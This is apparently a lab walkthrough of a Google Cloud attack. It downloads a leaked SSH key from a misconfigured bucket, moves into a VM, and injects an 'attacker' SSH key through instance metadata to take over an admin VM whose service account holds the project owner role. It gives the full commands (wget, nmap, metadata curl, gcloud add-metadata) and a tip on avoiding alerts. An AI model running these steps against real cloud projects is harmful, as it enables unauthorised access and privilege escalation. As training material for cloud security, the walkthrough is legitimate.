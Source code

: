 # Objective

We will find the credential for a low privileged virtual machine instance from the dev bucket. Then access other high privileged compute instances using the low privileged machine.

# Solution

**Step 1:** List out the content of the dev bucket, you compromised from the misconfigured storage bucket.

![](https://user-images.githubusercontent.com/54552051/204803801-bfa0ab6c-402b-4321-8342-71bd893941b0.png)

![](https://user-images.githubusercontent.com/54552051/204803856-29420dc8-6312-4afe-98bb-bc4332ed8b28.png)

In the bucket contents, you will find an interesting file named **config.txt** as highlighted in the above image. Copy the relative path for the file. There are some key files also in the same directory.

**Step 2:** Access the config.txt file using the relative path at the end of the bucket URL.

```
https://storage.googleapis.com/<DEV BUCKET NAME>/shared/files/.ssh/config.txt
```

![](https://user-images.githubusercontent.com/54552051/204803864-7e7c4f8d-6af7-4614-a6bc-36c5f3814a0a.png)

Here you will find multiple IPs with some users and their SSH key relative paths.

**Step 3:** Run the Nmap scan on the IP addresses using the below command.

```
nmap <IP_ADDR> -Pn
```

**Note:** Replace the IP_ADDR with the host IPs found in the config file.

![](https://user-images.githubusercontent.com/54552051/204803868-e501e087-61df-4033-9ad5-1f6a96fc8892.png)

One of the IP addresses will have port 22 open.

If you match this IP address in the config file, it will be for the user **justin**. 

![](https://user-images.githubusercontent.com/54552051/204803870-7ed420f1-be67-4a0e-a347-de85b600d0f0.png)

Copy the relative path for the SSH key.

**Step 4:** Download the SSH key onto your system and change the permissions of the file using chmod command.

```
wget https://storage.googleapis.com/<DEV BUCKET NAME>/shared/files/.ssh/keys/justin.pem

chmod 400 justin.pem
```

These commands will download the key file and change the permissions to read-only for the current user only.

![](https://user-images.githubusercontent.com/54552051/204803874-678a0170-9152-4191-b7bc-24d8deb14e44.png)

**Step 5:** Access the virtual machine using the ssh key just downloaded.

```
ssh -i justin.pem justin@<IP_ADDR>
```

**Note:** Replace IP_ADDR with the IP address corresponding to justin in the config file.

![](https://user-images.githubusercontent.com/54552051/204803878-4eddb718-37db-4863-adc0-81e6396607ae.png)

You will be successfully logged into the cloud virtual machine.

**Step 6:** Get the service account and project details using the below gcloud command.

```
gcloud config list
```

![](https://user-images.githubusercontent.com/54552051/204803879-4b98c341-2231-4afd-b4bc-bf7c2de7b6a7.png)

This VM seems to be using default compute service account. The default service account has **Editor** level access to the project. But often restricted by access scopes.

**Step 7:** Check access scope for the VM using metadata API.

```
curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes \
    -H 'Metadata-Flavor:Google'
```

![](https://user-images.githubusercontent.com/54552051/204803882-2c67e546-f990-458e-a7bc-a3b92dd3713e.png)

We don't have full API access on the project, but we do have full access to compute services and read access for the buckets.

**Step 8:** List out all the compute instances inside the project.

```
gcloud compute instances list
```

![](https://user-images.githubusercontent.com/54552051/204803884-8393d6ac-8af2-4b34-bdc4-584fd4230027.png)

Here we have another VM inside the project named as **admin-vm**. Note down the public IP address for the admin VM.

We will access this VM by modifying its metadata.

**Step 9:** Create a new SSH key for a user **attacker** using the below command.

```
ssh-keygen -t rsa -C "attacker" -f ./key -P "" && cat ./key.pub
```

![](https://user-images.githubusercontent.com/54552051/204803886-c7f73a5e-e221-4c3b-a8d6-78ccff403085.png)

A public and private key pair will be created for a user attacker. The public key is in **key.pub** file and the private key is in **key** file.

**Step 10:** Create a meta.txt file consisting of the user and the public key for this user.

```
NEWKEY="$(cat ./key.pub)"
echo "attacker:$NEWKEY" > ./meta.txt
```

We are storing the public key in the **NEWKEY** variable and then adding the USER:KEY data to the meta.txt file.

![](https://user-images.githubusercontent.com/54552051/204803887-a64505ca-1f0f-4fbf-92f2-6882b3e50119.png)

You can check the meta.txt file using the **cat** command.

**Step 11:** Update the metadata of the admin-vm instance using the below command.

```
gcloud compute instances add-metadata admin-vm --metadata-from-file ssh-keys=meta.txt
```

This command will add the content of meta.txt in the **ssh-keys** section of the instance metadata.

![](https://user-images.githubusercontent.com/54552051/204803892-a0e84265-54a3-4833-a00d-1719e5f8bfa4.png)

Hit **Y** if asked for the zone of the instance.

**Step 12:** Verify the metadata is updated for the admin-vm instance using the below gcloud command.

```
gcloud compute instances describe admin-vm --zone us-west1-c
```

![](https://user-images.githubusercontent.com/54552051/204803895-167d63da-42a7-4bf6-8c61-a28f4e6ce93a.png)

![](https://user-images.githubusercontent.com/54552051/204803896-d619b6c8-832f-42f7-bdfd-cfef28a7da51.png)

There is a key added to the **ssh-keys** section for the attacker user. You can follow the same method to update the SSH keys of an existing user.

**Step 13:** Log in to the admin-vm using the newly created key.

```
ssh -i ./key attacker@<IP_ADDR>
```

**Note:** Replace the IP_ADDR with the public IP of admin-vm instance.

![](https://user-images.githubusercontent.com/54552051/204803902-d2fb6393-ce11-4ef7-9aa9-0f0e143c908d.png)

You will be successfully logged in to the admin-vm with the attacker user. By default, the user will have sudo access as it was added through the metadata of this instance.

**Step 14:** Check for the project name and service account attached to this VM using the below gcloud command.

```
gcloud config list
```

![](https://user-images.githubusercontent.com/54552051/204803906-c4406f82-89f3-478f-8b24-ae34ed8c9940.png)

A service account named **admin-service-account** is attached to this instance. Note down the project name.

**Step 15:** Get the IAM policy of the project to check the access of this service account using the below gcloud command.

```
gcloud projects get-iam-policy <PROJECT NAME>
```

**Note:** Replace the PROJECT NAME with the project id you got from previous step.

![](https://user-images.githubusercontent.com/54552051/204803909-45b0631b-2f5a-42f2-83c0-b1c5b322252c.png)

You can see that this service account has the **owner** role on this project.

**Step 16:** Check access scope for the VM using metadata API.

```
curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes \
    -H 'Metadata-Flavor:Google'
```

![](https://user-images.githubusercontent.com/54552051/204803913-555e4ff9-5116-4bef-aeec-706975a318a3.png)

**cloud-platform** access scope means that we have full API access. This instance has full owner access over the project.


**Step 17:** Login to the admin-vm from the developer VM using a simple command.

```
gcloud compute ssh admin-vm
```

This command will add the current user to the admin-vm instance by modifying the metadata.

![](https://user-images.githubusercontent.com/54552051/204803915-5f6ab5c1-8246-4b3c-927a-c03fdc7f5097.png)

![](https://user-images.githubusercontent.com/54552051/204803920-1c4cb0a4-0755-42df-bbca-92b2227206fc.png)

You are now logged in to the admin-vm with user **justin**.

This method seems very easy but can trigger some alerts as a new user and ssh key are added to the VM. By using the previous method you can simply change the SSH keys of any existing user. Thus creating less noise in the environment.
